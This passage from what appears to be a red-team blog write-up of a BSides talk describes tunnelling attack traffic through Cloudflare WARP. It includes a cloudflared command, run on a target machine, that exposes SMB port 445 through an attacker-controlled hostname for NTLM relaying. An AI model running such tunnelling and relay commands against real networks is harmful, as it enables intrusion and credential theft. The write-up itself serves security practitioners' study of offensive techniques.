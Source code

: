 <img src="/assets/img/BSides19.jpg" width="200"/>

One further thing to mention, when you are using this double tunnel setup I found at times that since it is all operating over TCP, that name resolution when using hostnames which occurs by default over UDP, forces you to use to use the --dns-tcp and --dns-server features of netexec to operate correctly although IPs will work fine. Other times it works fine so I am not sure if it is a bit flakey depending on the environment but when not using the 'double tunnel' technique including ssh this shouldn't be an issue.

If you also wanted to perform some ntlm relaying like I have already shown over ssh, you can also achieve this with the the WARP client setup like so on your target machine: 

{% highlight powershell %}
cloudflared access tcp --hostname smb.redteaming.org --url 0.0.0.0:445
{% endhighlight %}

Then create the smb.redteaming.org hostname to point to port 445 on your localhost on your VM like we achieved with ssh.

Just to recap, here are the various techniques covered at this point and what is required to be in place to carry them out. There is no superior technique, but each offers another string to our bow during offensive engagements.

<img src="/assets/img/BSides20.jpg" width="200"/>
